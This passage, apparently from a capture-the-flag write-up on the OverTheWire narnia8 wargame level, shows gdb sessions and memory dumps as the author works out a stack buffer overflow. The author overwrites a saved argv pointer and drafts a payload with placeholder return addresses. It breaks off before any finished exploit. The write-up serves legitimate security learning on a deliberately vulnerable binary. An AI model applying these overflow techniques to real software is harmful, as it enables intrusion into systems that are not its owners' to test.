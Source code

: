 >
> Well, it looks like as soon as input hits the the address ```0xffde913c``` it stops. Let's see what's at the value when we run normal input.
>
>```
(gdb) run $(python -c 'print "A"*19')
Starting program: /root/CTF/OverTheWire/narnia/narnia8 $(python -c 'print "A"*19')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xffb47310:	0x08048580	0xffb47328	0x00000014	0xf754c1e3
0xffb47320:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffb47330:	0x41414141	0x41414141	0x00414141	0xffb48640
0xffb47340:	0x00000002	0xffb47404	0xffb47368	0x080484cd
0xffb47350:	0xffb48640	0xf770b000	0x080484fb	0xf76c1000
(gdb) x/20x 0xffb48640
0xffb48640:	0x41414141	0x41414141	0x41414141	0x41414141
0xffb48650:	0x00414141	0x5f474458	0x524e5456	0x5800373d
0xffb48660:	0x535f4744	0x49535345	0x495f4e4f	0x00313d44
0xffb48670:	0x5f485353	0x4e454741	0x49505f54	0x31313d44
0xffb48680:	0x47003631	0x415f4750	0x544e4547	0x464e495f
>```
>
> Ah, so that position looks like it holds the address of where our ```argv[1]``` is being stored.  So I guess when it overwrites that address it is no longer pointing at our input but to something else in memory.  Can we just make sure we overwrite that location with the intended address?
>
>```
(gdb) run $(python -c 'print "A"*19')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/OverTheWire/narnia/narnia8 $(python -c 'print "A"*19')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xffffd3b0:	0x08048580	0xffffd3c8	0x00000014	0xf7e3e1e3
0xffffd3c0:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffffd3d0:	0x41414141	0x41414141	0x00414141	0xffffd63c
0xffffd3e0:	0x00000002	0xffffd4a4	0xffffd408	0x080484cd
0xffffd3f0:	0xffffd63c	0xf7ffd000	0x080484fb	0xf7fb3000
>
(gdb) run $(python -c 'print "A"*20+"\x3c\xd6\xff\xff"')
Starting program: /root/OverTheWire/narnia/narnia8 $(python -c 'print "A"*20+"\x3c\xd6\xff\xff"')
>
Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20x $esp
0xffffd3b0:	0x08048580	0xffffd3c8	0x00000014	0xf7e3e1e3
0xffffd3c0:	0x00000000	0x00ca0000	0x41414141	0x41414141
0xffffd3d0:	0x41414141	0x41414141	0x41414141	0xffff443c
0xffffd3e0:	0x00000002	0xffffd4a4	0xffffd408	0x080484cd
0xffffd3f0:	0xffffd637	0xf7ffd000	0x080484fb	0xf7fb3000
>```
>
> So it looks like the address didn't overwrite with the value we intended, but I bet it has to do with the length of the actual input itself. Let's mock up the complete payload to include overwriting the return address and see if we can get the updated address and successfully overwrite it.
>
>```
(gdb) run $(python -c 'print "A"*20+"RRRR"+"A"*12+"RRRR"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
>
Starting program: /root/OverTheWire/narnia/narnia8 $(python -c 'print "A"*20+"RRRR"+"A"*12+"RRRR"')